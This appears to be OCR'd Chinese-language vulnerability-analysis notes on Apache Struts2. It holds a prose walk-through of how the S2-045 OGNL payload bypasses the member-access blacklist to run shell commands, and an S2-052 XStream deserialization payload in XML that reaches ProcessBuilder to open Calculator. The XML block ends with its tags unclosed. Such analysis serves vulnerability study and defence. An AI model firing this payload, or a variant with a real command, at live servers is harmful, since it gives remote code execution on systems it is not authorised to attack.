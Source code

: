 > Struts2 2.3.30(2.5.2)之后的版本,之前payload使用的_memberAccess和DefaultMemberAccess都进入到黑名单中了,覆盖的方法看似就不行了.S2-045的payload提供了一种新的方法.通过container获取了OgnlUtil实例,再使用 clear方法清空excludedClasses、excludedPackageNames,然后setMemberAccess方法设置默认的memberAccess来覆盖_memberAccess.

> payload首先定义#fuck='multipart/form-data'是为了满足漏洞的触发条件,详情可见S2-045的漏洞分析文章.然后调用ognl.OgnlContext的DEFAULT_MEMBER_ACCESS来获取DefaultMemberAccess实例.然后利用一个三元表达式,可看到#_memberAccess初始为空所以执行:后面的内容.:后面的内容首先获取一个container的实例,然后调用这个实例的getExcludedPackageNames和getExcludedClasses的clear方法来清空黑名单,然后再设置setMemberAccess为DefaultMemberAccess实例.之后定义要执行的命令字符串,之后调用java.lang.System的getProperty方来判断操作系统类型,如果是windows操作系统,调用cmd.exe /c 来执行命令,如果不是windows系统,则使用/bin/bash -c 执行命令,接下里的输出执行命令结果的流程就和S2-001的输出命令执行结果的流程类似了.以这个#cmds参数构造了一个ProcessBuilder对象,然后设置ProcessBuilder对象的redirectErrorStream属性为true,然后调用start方法新建一个进程执行命令.之后在获取一个org.apache.struts2.ServletActionContext类的getResponse对象来获取输出流,用于处理response.然后以这个getResponse对象和#process为参数调用org.apache.commons.io.IOUtils的copy方法把执行命令的结果发送到缓冲区,最后输出缓冲区的内容.

## S2-052

```java
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
        <flags>0</flags>
        <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
            <dataHandler>
            <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                <is class="javax.crypto.CipherInputStream">
                <cipher class="javax.crypto.NullCipher">
                    <initialized>false</initialized>
                    <opmode>0</opmode>
                    <serviceIterator class="javax.imageio.spi.FilterIterator">
                    <iter class="javax.imageio.spi.FilterIterator">
                        <iter class="java.util.Collections$EmptyIterator"/>
                        <next class="java.lang.ProcessBuilder">
                        <command>
                            <string>open</string>
                            <string>-a</string>
                            <string>Calculator</string>
                        </command>
                        <redirectErrorStream>false</redirectErrorStream>
                        </next>
                    </iter>
                    <filter class="javax.imageio.ImageIO$ContainsFilter">
                        <method>
                        <class>java.lang.ProcessBuilder</class>
                        <name>start</name>
                        <parameter-types/>
                        </method>
                        <name>foo</name>
                    </filter>
                    <next class="string">foo</next>
                    </serviceIterator>
                    <lock/>
                </cipher>
                <input class="java.lang.ProcessBuilder$NullInputStream"/>
                <ibuffer></ibuffer>
                <done>false</done>
                <ostart>0</ostart>
                <ofinish>0</ofinish>
                <closed>false</closed>
                </is>
                <consumed>false</consumed>
            </dataSource>
            <transferFlavors/>
            </dataHandler>
            <dataLen>0</dataLen>
        </value>
```